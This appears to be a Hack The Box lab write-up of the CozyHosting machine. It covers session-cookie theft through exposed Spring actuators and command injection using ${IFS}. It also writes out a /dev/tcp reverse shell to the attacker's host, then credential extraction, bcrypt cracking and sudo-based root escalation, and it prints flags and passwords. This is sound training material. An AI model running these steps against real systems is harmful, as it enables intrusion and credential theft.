**Start 09:55 01-08-2024**

---
```
10.10.11.230
```

## Nmap recon

During a quick `nmap` scan we find out that there seem to only be 2 ports open, `ssh & http`.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT 10.10.11.230
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 09:00 IST
Nmap scan report for 10.10.11.230
Host is up (0.022s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.14 seconds
```

As always with `port 80` we add the `IP_ADDR` to the `/etc/hosts` file in order to make connecting easier. 
Also worth a try to just check `searchsploit` for any `OpenSSH` exploits, but there's nothing notable for this version we are running.

### 80/TCP - HTTP

After visiting the website we are greeted with the following:


The site appears to be a cloud hosting provider. There's a bunch of `paid plans` stated that we cannot seem to interact with, and there's an email and phone provided. Other than that the only page that looks interesting to us is the `Login` page.


### burpsuite
As always with a website (or login forms etc) we will try and utilize `BurpSuite` in order to view the `http` traffic and analyse it so we can gain an entry.

After intercepting the traffic we get the following:



We see that the `username and password` are being sent in clear text as well as the `JSESSIONID` cookie.

Maybe we will come back to it, but for now we'll try different methods.

### dirsearch
Our `dirsearch shows the following`:

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://cozyhosting.htb/ -x 403,404,400
```



We find an absolute boatload of `/actuator` directories. Since I've never seen these before I decided to Google whether there's any exploits for this and low and behold:



:::note
The full post can be found [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)
:::

It appears that the application is being run on `Java Springboot` (hence why they're called `Spring Actuators`). 

Upon further research I found that in our case where the `/actuator` endpoints are exposed, it means that `debugging is enabled`. This is good for us as we might be able to find hardcoded credentials somewhere in the files.

## Actuator endpoints
After having glanced over some of the `/actuator` endpoints there is one that stands out amongst the rest:

```
/actuator/sessions
```

Could this mean that there will be hardcoded `Cookies` and/or credentials in here? Let's find out:



Would you look at that, there are indeed 2 separate `sessions` for the `kanderson` user.
This means that we can just go ahead, copy the `session cookie` and set it in our `storage developers tab` like so:



After inserting `kanderson`'s cookie into the `JSESSIONID` and refresh the page we notice that the `Login` button is gone. We can now go ahead and head into the `/admin` page and hopefully we'll see a dashboard there.



Perfect! We have gained access to `kanderson's account by inserting his cookie`.
Looking at the bottom of this page we notice a message about `including host into automatic patching`. They are talking about including a private key within the `.ssh/authorized_keys` files.

After trying my own `IP_ADDR and username` I get the following message:



We notice that the service is trying to use `ssh` to connect us via `port 22`. This means that the backend is probably trying to run the following command in order to connect us:

```bash
ssh -i id_rsa user@host
```


### curl
After researching this topic for a little bit I've found that we are likely supposed to do some sort of `command injection` here. To test whether this is the way to go we'll first start up a `python server` and try to `curl` it from the target.

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 8000                                      
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Since the username does not allow `whitespace` we'll have to insert a special shell command namely `${IFS}` which stands for [Internal Field Separator](https://www.baeldung.com/linux/ifs-shell-variable). This is a special variable that defaults to a `space in shells like Bash`.

Thus we can leverage it to test out our `curl` like so:



And after sending the `submit` we see the following pop up in our terminal:

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 8000                                      
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.230 - - [01/Aug/2024 10:54:08] "GET / HTTP/1.1" 200 -
```

This means that the `command injection` worked. We now just have to modify it in such a way that we can achieve [remote code execution](https://www.splunk.com/en_us/blog/learn/rce-remote-code-execution.html).  

### Reverse Shell
First we need to create a `reverse shell` and host it to our server. It should look somewhat like this:

```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.53/1234 0>&1' > rev.sh
```

This will create a script called `shell.sh` which will initiate the reverse shell to our `Netcat listener`. We now need to start a listener on the above mentioned port thus:

```bash
nc -lvnp 1234
```

now we need to edit the payload on the webpage, so that it can fetch the `reverse shell script from our host` via `Netcat`, and then upload and execute it.

	Don't forget to keep the `python server running`, as I did forget to do it
	 and kept on asking myself why it did not work.

After sending the message from the site, our listener terminal should look like this. I stabilized the shell using 

```bash
script /dev/null -c bash
```



Even though I somewhat stabilized this shell, it is still highly unreliable, so be careful what commands you issue.

## Lateral Movement

Now that we've successfully created a `reverse shell` we notice that we start off in the `/app` directory. There is one file inside this folder under the name of `cloudhosting-0.0.1.jar`.
As I did not know what file extension this was I Googled it and it turns out to be the following:

```
JAR files are archive files that include a Java-specific manifest file. They are built on the ZIP format and typically have a .jar file extension.

-Wikipedia
```

So I guess since it's a `ZIP` format, we can try to unzip it? Let's try it out:



It has unzipped yet again an absolute boatload of files and folders for us. 
There is one files that stands out yet again to us:

```
/tmp/app/BOOT-INF/classes/application.properties
```

If we are lucky there might be some sweet credentials stuffed in here.



We now know that it's using a `POSTGRESQL` database to store all the info in, and we know the server address which is the `loopback address 127.0.0.1`. We also notice the username `postgres` as well as the password `Vg&nvzAQ7XxR`.

### PostgreSQL
This means we can try to connect to the `database` using:

```bash
psql -h 127.0.0.1 -U postgres
```

```bash
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
psql -h 127.0.0.1 -U postgres
Password for user postgres: Vg&nvzAQ7XxR

psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

And we're in!

	We can now run the `help` command in case we're not familiar with the syntax.

After running `\list` we get the following databases outputted:



From this list the one that is probably most interesting to us is of course the `cozyhosting db`.
To read this database we need to `connect` to it using:

```sql
\connect cozyhosting
```

After we have connected to the database we can now start checking the tables.



The `users` table is of utmost interest, let's read it.



Would you look at that, the sweet credentials that we were looking for.
We can now go ahead and put the `Admin hash` into a `.txt` file and start cracking it.

```bash
┌──(kali㉿kali)-[~]
└─$ echo -e '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash.txt
```

## HashCat
The first part of the hash, `$2a$`, tells us that it's probably a `bcrypt hash`. We can go about cracking it using `Hashcat` with the following command:

```bash
┌──(kali㉿kali)-[~]
└─$ hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt.gz

# Mode 3200 => bcrypt
```

And just like that we have cracked our hash:



```
manchesterunited
```

## 22/TCP - SSH

After obtaining the password we can now check the users present on the machine to figure out which user this might be linked to using

```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

We find a user called `Josh` which might be just the user we're looking for.
Let's try to log into `SSH` using the previously found credentials.



And we have now got access to `SSH`.

### user.txt
After gaining access to Josh's account we land in the `/home` directory where we find the `user.txt` flag right away:

```bash
josh@cozyhosting:~$ cat user.txt 
f29bfbc89145a31150b581773fe00e5f
```

## Privilege Escalation
Now we can get to the fun part, we run `sudo -l` to check privileges and notice that we can run the following commands:



With the help of [GTFOBins](https://gtfobins.github.io/) I found a method to gain a `root shell` by leveraging the command that we are allowed to execute. By following these [instructions](Linux%20Privilege%20Escalation.md#SSH#Sudo) below I got it in seconds:



This means that we just have to insert the above command and we gain a `root shell` right away.



After this you just navigate to `/root` and the flag is there:

```bash
# cd /root
# ls
root.txt
# cat root.txt  
f853a4f1fd75a49a2815e017298fea0f
```




**Finished 13:14 01/08**

---

[^Links]: [[Hack The Box]]

